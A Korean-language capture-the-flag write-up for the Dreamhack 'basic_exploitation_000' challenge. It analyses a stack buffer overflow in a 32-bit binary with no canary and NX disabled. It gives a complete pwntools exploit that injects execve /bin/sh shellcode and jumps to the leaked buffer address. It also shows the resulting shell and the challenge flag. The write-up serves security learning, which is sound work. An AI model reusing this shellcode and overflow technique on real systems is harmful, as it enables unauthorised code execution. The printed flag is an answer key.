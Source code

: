 ## 문제에서 주어진 환경
Ubuntu 16.04
Arch: i386-32-little RELRO: No RELRO
Stack: No canary found NX: NX disabled
PIE: No PIE (0x8048000) RWX: Has RWX segments

-> 32비트 환경이므로 4바이트 단위로 데이터를 처리한다
-> canary가 없으므로 BOF 공격에 용이하다

## 주어진 코드 분석

int main(int argc, char *argv[]) {
    char buf[0x80]; // 128 비트

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf); // 141 비트, 13 비트가 남는다.

    return 0; 
}

주어진 코드에서 buf는 128바이트로 선언되었지만, scanf를 통해 141 바이트를 불러온다.
여기서 BOF의 가능성을 볼 수 있다.

공격을 하기 위해서는 buf의 시작주소를 알아야 한다.

## ghidra를 통해 프로그램을 분석해보자

image.png

080485f2 83 c4 08 ADD ESP,0x8
080485f5 8d 45 80 LEA EAX=>local_84,[EBP + -0x80]

위 부분에서 scanf 함수를 통해 ebp + -0x80부터 입력된 값이 저장됨을 알 수 있다.

32비트 환경에서 시스템 스택의 구조는 다음과 같다.
- BUF - CANARY - SFP - RET

여기에서 CANARY는 존재하지 않으므로, 128바이트 BUF + 4바이트 SFP + RET로 이루어짐을 알 수 있다.
-> shell code가 포함된 132바이트 문자열 + 버퍼의 시작주소를 입력한다면 시스템 권한을 취득할 수 있다.

## 파이썬을 통한 시스템 권한 취득

from pwn import *

p = remote("host3.dreamhack.games", 10666)

p.recvuntil(b"buf = (") 
buf = int(p.recv(10), 16) 
p.recvuntil(b"\n")

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\ x08\x40\x40\x40\xcd\x80"
payload += b"\x80" * 106
payload += p32(buf)

p.sendline(payload) 
p.interactive()

사이트에서 접속정보에 있는 host이름과 포트번호를 remote()를 통해 불러온다.

recvuntil(), recv()는 데이터를 받아오는 함수이다. 
recvuntil(b”string”)은 현재 포인터에서 문자열까지 받아온다. 
recv(int)는 int만큼 데이터를 받아온다.

위에서 분석한 코드를 보면 s_buf_=_(%p) 형식으로 되어있다.
이는 문자열 “buf = (%p)”로 되어 있다는 것으로, 우리에게 필요한 부분만 가져오기 위해 주소 앞까 지 먼저 처리한다.

그러고 난 뒤 0xMMMMMMMM형태의 수(10자리)를 16진수 형태로 받아서 정수로 저장한다.
남아있는 문자열의 끝은 \n이기 떄문에 \n까지 데이터를 받아오는 식으로 나머지를 정리한다.
RET 데이터에 BUF의 주소를 넣고, 앞에 132 바이트를 셸코드와 나머지로 만든다면 원하는 권한을 얻을 수 있다.

payload = [shell code] + [임의의 데이터 -> 132바이트] + [buf의 주소]가 되고, 이는 c코드에서 입력하는 buf이다.

shell code는 구글링을 통해 기본적인 26바이트 코드로 가져왔다.
나머지 106바이트를 아무 수로 만들고 마지막에 buf의 주소를 연결한다.
32비트 환경에서는 4바이트 단위로 쪼개기 때문에 p32()함수를 사용해 주소를 나눈다.

이렇게 만들어진 payload를 입력하고 상호작용을 하면 다음과 같은 결과를 얻는다.

[+] Opening connection to host3.dreamhack.games on port 10666: Done
[*] Switching to interactive mode
$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
[*] Got EOF while reading in interactive

정답은 DH{465dd453b2a25a26a847a93d3695676d} 이다.